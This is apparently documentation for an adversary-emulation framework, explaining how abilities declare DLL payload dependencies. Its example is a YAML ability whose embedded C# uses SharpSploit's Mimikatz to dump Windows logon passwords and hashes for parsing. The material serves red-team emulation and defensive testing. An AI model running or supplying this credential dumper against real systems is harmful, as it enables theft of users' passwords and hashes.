 #### DLL Dependencies

DLL dependencies can be added, at both compilation and execution times, using the ability `payload` field. The referenced library should be in a plugin's `payloads` folder, the same as any other payload.

The following ability references `SharpSploit.dll` and dumps logon passwords using Mimikatz:

```yaml
---

- id: 16bc2258-3b67-46c1-afb3-5269b6171c7e
  name: SharpSploit Mimikatz (DLL Dependency)
  description: SharpSploit Mimikatz
  tactic: credential-access
  technique:
    attack_id: T1003
    name: Credential Dumping
  privilege: Elevated
  platforms:
    windows:
      psh,cmd:
        build_target: CredDump.exe
        language: csharp
        code: |
          using System;
          using System.IO;
          using SharpSploit;

          namespace CredDump
          {
              class Program
              {
                  static void Main(string[] args)
                  {
                      SharpSploit.Credentials.Mimikatz mimi = new SharpSploit.Credentials.Mimikatz();
                      string logonPasswords = SharpSploit.Credentials.Mimikatz.LogonPasswords();
                      Console.WriteLine(logonPasswords);
                  }
              }
          }
        parsers:
          plugins.stockpile.app.parsers.katz:
            - source: domain.user.name
              edge: has_password
              target: domain.user.password
            - source: domain.user.name
              edge: has_hash
              target: domain.user.ntlm
            - source: domain.user.name
              edge: has_hash
              target: domain.user.sha1
  payloads:
    - SharpSploit.dll
```
